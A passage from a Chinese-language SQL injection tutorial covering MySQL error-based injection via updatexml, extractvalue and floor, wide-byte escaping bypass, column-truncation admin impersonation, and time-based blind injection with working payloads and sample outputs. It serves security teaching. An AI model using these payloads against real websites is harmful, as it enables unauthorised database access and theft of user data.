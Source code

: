 ### 五、MySQL显错式注入
（1）通过updatexml函数，执行SQL语句
select * from message where id=1 and updatexml(1,(concat(0x7C,(select @@version))),1);
显示结果如下：
ERROR 1105 (HY000):XPATH syntax error: '|5.1.50-community-log'
（2）通过extractvalue函数，执行SQL语句
select * from message where id=1 and extractvalue(1,concat(0x7C,(select user())));
显示结果如下：
ERROR 1105 (HY000):XPATH syntax error: '|root@localhost'
（3）通过floor函数，执行SQL语句
select * from message where id = 1 union select * from (select count(*),concat(floor(rand(0)*2),(select user()))a from information_schema.tables group by a)b
显示结果如下：
ERROR 1062 (23000):Duplicate entry '1root@localhost' for key 'group_key'
通过此类函数，可以达到与SQL Server数据库显错类似的效果。

### 六、宽字节注入
是由编码不统一所造成的，这种注入一般出现在PHP+MySQL中
如果在php.ini中打开了magic_quotes_gpc，用户输入0xbf27，经过转义后变成0xbf5c27，但0xbf5c又是一个字符，因此原本会存在的转义符号“\”，在数据库中就被“吃掉”了。单引号又显现了出来。

### 七、MySQL长字符截断（SQL-Column-Truncation）
在MySQL中的一个设置里有一个sql_mode选项，当sql_mode设置为default时，即没有开启STRICT_ALL_TABLES选项时，MySQL对插入超长的值只会提示warning，而不是error，这样就可能会导致一些截断问题。
新建一张表测试，表结构如下（MySQL 5.1）
CREATE TABLE USERS(
   id int(11) NOT NULL,
   username varchar(7) NOT NULL,
   password varchar(12) NOT NULL
)
分别插入以下SQL语句
（1）插入正常的SQL语句
mysql> insert into users(id,username,password) values (1,'admin','admin');
Query OK,1 row affected (0.00 sec)
（2）插入错误的SQL语句，此时的"admin   "右面有三个空格，长度为8，已经超过了原有的规定长度。
mysql> insert into users(id,username,password) values (2,'admin   ','admin');
Query OK,1 row affected,1 warning (0.00 sec)
（3）插入错误的SQL语句，长度已经超过原有的规定长度。
mysql> insert into users(id,username,password) values (3,'admin   x','admin');
Query OK,1 row affected,1 warning (0.00 sec)
比如，有一处管理员登录是这样判断的，语句如下：$sql="select count(*) from users where username='admin' and password='*****'";
假设管理员登录的用户名为admin，那么攻击者仅需要注册一个“admin   ”用户即可轻易进入后台管理页面。

### 八、延时注入
当网页页面具有容错功能，就只能通过盲注判断，盲注的意思即页面无差异的注入。延时注入则属于盲注技术的一种，是一种基于时间差异的注入技术。
在MySQL中有一个函数：SLEEP(duration)，这个函数意思是在duration参数给定的秒数后运行语句。
select * from users where id=1 and sleep(3); 3秒后执行SQL语句
可以使用这个函数来判断URL是否存在SQL注入漏洞，步骤如下：
http://www.example.com/user.jsp?id=1 //页面返回正常，1秒左右可打开页面
http://www.example.com/user.jsp?id=1'//页面返回正常，1秒左右可打开页面
http://www.example.com/user.jsp?id=1' and 1=1 //页面返回正常，1秒左右可打开页面
http://www.example.com/user.jsp?id=1 and sleep(3) //页面返回正常，3秒左右可打开页面
DBMS执行了and sleep(3)语句，这样一来可判断出URL确实存在SQL注入漏洞。
与其他函数配合可通过延时注入读取数据
（1）and if(length(user())=0,sleep(3),1)
循环0，如果出现3秒延时，就可以判断出user字符串长度
（2）and if(hex(mid(user(),1,1))=1,sleep(3),1)
取出user字符串的第一个字符，然后与ASCII码循环对比。
（3）and if(hex(mid(user(),L,1))=N,sleep(3),1)
递归破解第二个ACSII码、第三个ASCII码，直至字符串最后一个字符为止。L的位置代表字符串的第几个字符，N的位置代表ASCII码。
SQL Server中的延时函数为waitfor delay、Oracle中的为DBMS_LOCK.SLEEP等函数
